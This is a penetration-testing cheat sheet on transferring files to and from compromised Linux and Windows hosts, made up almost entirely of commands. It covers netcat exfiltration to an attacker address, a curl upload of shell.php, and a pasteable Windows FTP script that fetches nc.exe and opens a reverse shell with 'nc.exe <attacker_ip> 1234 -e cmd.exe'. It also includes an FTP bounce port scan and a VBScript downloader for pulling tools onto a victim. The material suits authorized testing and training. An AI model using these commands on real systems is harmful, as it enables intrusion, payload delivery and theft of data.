

# Transferring files

## Linux 

### Netcat

```text
on target run:
nc -lvp 443> transfer.txt
on attacker run:
nc $ip 443 < transfer.txt
```

or

```text
on attacker run:
nc -lvp 443> transfer.txt
on target run:
cat transfer.txt | nc $attackerip 443
```

The attack box can now connect to port 443 and download a file called transfer.txt

### ProTip

If u ever happen to have a shell of a UNIX system, and cannot find a way to upload anything, this is a lifesaver trick you can try:

```text
On local system:
cat filetoupload | base64 -w 0; echo
#double click on output to copy
On Target System:
echo <copiedContent> | base64 -d > filetoupload
```

### Windows: ftp, tftp, powershell script to echo and write.

### Download file with curl:

```text
curl -O http://host/file
```

### Upload a file with put:

```text
curl --upload-file shell.php --url http://$ip/shell.php --http1.0
```

```text
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/

nano /etc/default/atftpd # confirm that /tftp is the directory - otherwise it cant find the file
service atftpd restart
```

### Start a web server in your local machine serving files within the current folder:

```text
python -m SimpleHTTPServer
```

```text
python3 -m http.server
```

```text
php -S $ip:80
```

### Send files using different commands:

```text
nc -nlvp 4444 > incoming.exe
```

### As an FTP server, metasploit has built in one:

```text
use auxiliary/server/ftp
auxiliary/server/tftp
```

### Simple Fast python FTP server no login details necessary

```text
pip install pyftpdlib
python -m pyftpdlib -p 21
```

### SMB share server:

```text
python smbserver.py WORKSPACE /dir
```

### Curl put:

```text
curl -T 'file' 'http://$ip'
```

### Linux, mounting a samba share:

```text
smbclient -L 1.1.1.1 --no-pass
```

### Simple HTTP Server with Upload

```text
wget https://gist.githubusercontent.com/UniIsland/3346170/raw/059aca1d510c615df3d9fedafabac4d538ebe352/SimpleHTTPServerWithUpload.py ; chmod +x SimpleHTTPServerWithUpload.py; ./SimpleHTTPServerWithUpload.py
```



## Windows

```text
https://github.com/egre55/ultimate-file-transfer-list?fbclid=IwAR1Bx3zzQTuBuD6XAK0aooaxfSGqk_MDLO8NniVMEnthfPIm4snmbuWjeYI
```

### Paste the following code to get nc in the victim:

```text
echo open <attacker_ip> 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
nc.exe <attacker_ip> 1234 -e cmd.exe
```


make sure to start the FTP service on your kali  
service pure-ftpd start


### Echo up

[https://pentest.ws/e/mQx1MdxD\#tools/echo-up](https://pentest.ws/e/mQx1MdxD#tools/echo-up)

### Bounce port scanning

```text
nc $ip 21
220 Femitter FTP Server ready.
USER anonymous
331 Password required for anonymous.
PASS foo
230 User anonymous logged in.
PORT 127,0,0,1,0,80
200 Port command successful.
LIST
```

### Nice trick to share folders with RDP:

```text
rdesktop (ip) -r disk:share=/home/bayo/store
```

### With Powershell:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOURIP:8000/afile.exe','C:\Users\YOURUSER\Desktop\afile.exe')"
```

### Paste the following block in a command line to get a web client:

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

#### Run with:

```text
cscript wget.vbs http://<attacker_ip>/nc.exe nc.exe
```

